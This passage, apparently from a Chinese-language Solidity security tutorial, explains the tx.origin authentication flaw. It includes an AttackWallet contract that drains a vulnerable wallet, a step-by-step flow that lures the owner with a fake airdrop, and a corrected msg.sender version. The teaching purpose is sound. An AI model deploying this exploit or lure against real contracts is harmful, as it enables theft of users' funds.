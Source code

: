 ```solidity
    
    receive() external payable {}
}
```

#### 💣 攻击合约

```solidity
contract AttackWallet {
    VulnerableWallet public wallet;
    address public attacker;
    
    constructor(address _walletAddress) {
        wallet = VulnerableWallet(payable(_walletAddress));
        attacker = msg.sender;
    }
    
    // 攻击函数（诱骗 owner 调用）
    function attack() public {
        // 当 owner 调用此函数时：
        // tx.origin = owner
        // msg.sender = AttackWallet
        
        // 由于 VulnerableWallet 使用 tx.origin，检查会通过！
        wallet.withdraw(payable(attacker), address(wallet).balance);
    }
}
```

#### 🎣 攻击流程

```
1. 攻击者部署 AttackWallet
2. 攻击者诱骗 owner 调用 AttackWallet.attack()
   （比如说："这是一个空投合约，快来领取！"）
3. 当 owner 调用时：
   - tx.origin = owner (通过检查！)
   - AttackWallet.attack() 调用 VulnerableWallet.withdraw()
4. 资金被盗到攻击者地址
```

这个tx.origin是可以通过被别人引诱而间接去调用这个函数，导致财产得到亏损



### 3.3 正确的方式

#### ✅ 使用 msg.sender

```solidity
contract SafeWallet {
    address public owner;
    
    constructor() {
        owner = msg.sender;
    }
    
    // ✅ 使用 msg.sender 验证
    function withdraw(address payable to, uint256 amount) public {
        require(msg.sender == owner, "Not owner");
        to.transfer(amount);
    }
    
    receive() external payable {}
}
```
